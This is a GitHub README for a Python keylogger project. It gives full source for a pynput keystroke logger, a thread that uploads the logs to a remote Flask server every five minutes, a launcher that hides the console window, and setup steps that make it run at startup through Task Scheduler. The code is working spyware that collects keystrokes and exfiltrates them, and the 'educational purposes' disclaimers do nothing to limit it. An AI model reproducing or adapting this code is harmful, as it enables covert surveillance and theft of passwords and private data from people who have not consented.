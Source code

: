 # Keylogger Project
<p align="center">
  <img src="https://github.com/user-attachments/assets/7aae0741-4d08-4b49-b36b-3a9eea08caaa" alt="What-is-a-keylogger-03">
</p>
This repository contains a simple keylogger implemented in Python using the `pynput` library. The keylogger captures keystrokes and sends them to a remote server using Flask. This project is intended for educational purposes only. Unauthorized use of keylogger software is illegal and unethical. Always obtain explicit consent before using any software that monitors or collects data.

Key Features:
- Captures keystrokes and logs them
- Sends log files to a remote Flask server
- Runs as a background task

Setup Instructions:
1. Install required Python packages
2. Set up the Flask server
3. Configure the keylogger script
4. Run the keylogger in a virtual environment using VMware

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [How It Works](#how-it-works)
- [Ethical and Legal Notice](#ethical-and-legal-notice)
- [Contributing](#contributing)
- [License](#license)

## Installation

### Prerequisites

- Python 3.x
- `pynput` library
- `requests` library
- VMware Workstation Pro (for virtual environment)
- Flask (for the server)

### Step-by-Step Guide

1. **Clone the Repository:**

    ```bash
    git clone https://github.com/yourusername/keylogger-project.git
    cd keylogger-project
    ```

2. **Install Python Packages:**

    ```bash
    pip install pynput requests flask
    ```

3. **Set Up the Flask Server:**

    Create a file named `server.py` and add the following code:

    ```python
    from flask import Flask, request
    import os

    app = Flask(__name__)
    upload_folder = "key_logs"
    if not os.path.exists(upload_folder):
        os.makedirs(upload_folder)

    @app.route('/upload', methods=['POST'])
    def upload_file():
        if 'file' not in request.files:
            return "No file part", 400
        file = request.files['file']
        if file.filename == '':
            return "No selected file", 400
        file.save(os.path.join(upload_folder, file.filename))
        return "File uploaded successfully", 200

    if __name__ == "__main__":
        app.run(host='0.0.0.0', port=5000)
    ```

    Run the Flask server:

    ```bash
    python server.py
    ```

4. **Configure the Keylogger:**

    Create a file named `keylogger.py` and add the following code:

    ```python
    from pynput import keyboard
    import logging
    import os
    import requests
    import threading
    import time

    log_dir = ""
    log_file = os.path.join(log_dir, "key_log.txt")

    logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

    def on_press(key):
        try:
            logging.info(str(key))
        except AttributeError:
            logging.info('Special key {0} pressed'.format(key))

    def send_log_file():
        while True:
            if os.path.exists(log_file):
                with open(log_file, 'rb') as f:
                    requests.post("http://<server_ip>:5000/upload", files={'file': f})
            time.sleep(300)  # Send log file every 5 minutes

    if __name__ == "__main__":
        threading.Thread(target=send_log_file).start()
        with keyboard.Listener(on_press=on_press) as listener:
            listener.join()
    ```

    Replace `<server_ip>` with the IP address of your Flask server.

5. **Run the Keylogger in Background:**

    Create a file named `run_keylogger_in_background.py` and add the following code:

    ```python
    import subprocess

    def run_script_background(script_path):
        subprocess.Popen(["python", script_path], creationflags=subprocess.CREATE_NO_WINDOW)

    if __name__ == "__main__":
        script_to_run = "keylogger.py"  # Path to your keylogger script
        run_script_background(script_to_run)
    ```

6. **Create a Batch File:**

    Create a batch file named `run_keylogger.bat` and add the following code:

    ```batch
    @echo off
    python C:\path\to\run_keylogger_in_background.py
    ```

    Replace `C:\path\to` with the actual path to your script.

7. **Set Up Scheduled Task:**

    Use Windows Task Scheduler to create a scheduled task that runs the batch file at startup.

## Usage

1. Start the virtual machine in VMware.
2. Verify that the keylogger is running as a background task.
3. Check the Flask server's `key_logs` folder to see if log files are being received.

## How It Works

- **Keylogger Script:** Captures keystrokes and saves them to a log file.
- **Background Script:** Runs the keylogger in the background without showing a console window.
- **Batch File:** Executes the background script.
- **Flask Server:** Receives the log files from the keylogger and stores them.

## Ethical and Legal Notice

This project is intended for educational purposes only. Unauthorized use of keylogger software is illegal and unethical. Always obtain explicit consent before using any software that monitors or collects data.

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss your changes.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
